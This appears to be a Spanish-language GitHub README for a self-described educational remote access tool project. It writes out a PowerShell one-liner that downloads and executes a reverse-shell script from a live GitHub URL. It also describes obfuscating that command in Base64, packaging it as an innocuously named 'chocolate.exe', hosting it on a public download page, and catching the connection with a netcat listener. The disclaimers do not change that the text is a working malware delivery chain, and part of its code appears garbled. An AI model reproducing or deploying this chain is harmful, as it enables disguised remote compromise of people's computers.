 # Remote Code Execution Educational Project
⚠️ **ADVERTENCIA CRÍTICA: PROYECTO SOLO PARA FINES EDUCATIVOS**

---

## Descripción del Proyecto
Este repositorio contiene código educativo diseñado exclusivamente para comprender el funcionamiento de los RAT (Remote Administration Tools) y técnicas de ejecución remota de código. El objetivo es proporcionar material de estudio para profesionales de ciberseguridad, investigadores y estudiantes en entornos controlados.

🚨 **USO RESPONSABLE REQUERIDO**

- Solo ejecutar en laboratorios aislados  
- Nunca utilizar contra sistemas sin autorización explícita  
- Comprender las implicaciones legales antes de proceder

---

## Estructura del Proyecto

### Paso 1: Ejecución Remota mediante PowerShell Ofuscado
El proyecto implementa una técnica común de ofuscación usando Base64 para ejecutar código PowerShell remotamente.

**Comando Original:**
```powershell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/akthanon/cybersecurity-tools/refs/heads/main/shell.ps1')"
```

```python
import os

# Comando PowerShell ofuscado en Base64 con osfuscarshell.py

chocolate.py
```

---

### Paso 2: Compilación a Ejecutable
Compilación del script Python a archivo ejecutable:

```
chocolate.exe
```

```bash
pyinstaller --onefile .\chocolate.py
```

### Descarga del .exe

Para facilitar la descarga del archivo se creó una pagina llamada descarga.html que tiene un botón para descargar el archivo chocolate.exe

la pagina también está hosteada en clouflare

https://chocolate.jorpavelazc-93f.workers.dev/descarga

---

### Shell PowerShell (`shell.ps1`)
Código para establecer conexión reversa:

```
shell.ps1
```

---

### Configuración del Listener
En la máquina atacante (solo para pruebas educativas):

```bash
nc -lvnp 4444
```

---

### Payload Divertido de Ejemplo 
```
$url = "https://www.adslzone.net/app/uploads-adslzone.net/2017/01/hacked.jpg"; $output = "imagen.jpg"; Write-Host "Descargando imagen desde $url..."; Invoke-WebRequest -Uri $url -OutFile $output; if (Test-Path $output) { Write-Host "Imagen descargada correctamente."; Start-Process $output } else { Write-Host "Error: No se pudo descargar la imagen." }; $video = "https://www.youtube.com/watch?v=dQw4w9WgXcQ"; Write-Host "Abriendo video de YouTube..."; Start-Process $video
```

---

## 🔒 Advertencias de Seguridad

⚠️ **DECLARACIÓN LEGAL IMPORTANTE**

- **USO ÉTICO OBLIGATORIO:** Este código debe usarse solo con fines educativos.  
- **AUTORIZACIÓN REQUERIDA:** Nunca ejecutar en sistemas sin permiso explícito.  
- **RESPONSABILIDAD DEL USUARIO:** El mal uso de este material es responsabilidad exclusiva del usuario.  
- **CONSECUENCIAS LEGALES:** El uso no autorizado puede violar leyes locales e internacionales.

---

## Configuración Segura Recomendada
- Ejecutar en máquinas virtuales aisladas  
- Usar redes de laboratorio separadas  
- Desactivar conexión a internet durante pruebas  
- Monitorear con herramientas de seguridad

---

## Objetivos Educativos
- Comprender técnicas de ofuscación de código  
- Analizar mecanismos de ejecución remota  
- Estudiar patrones de comportamiento de RAT  
- Desarrollar contramedidas de detección

---

## Contribuciones
Se aceptan contribuciones que mejoren el valor educativo o añadan análisis de detección y prevención.

---

⚠️ **RECUERDA:** El conocimiento es poder, pero la responsabilidad es esencial. Usa este material sabiamente.
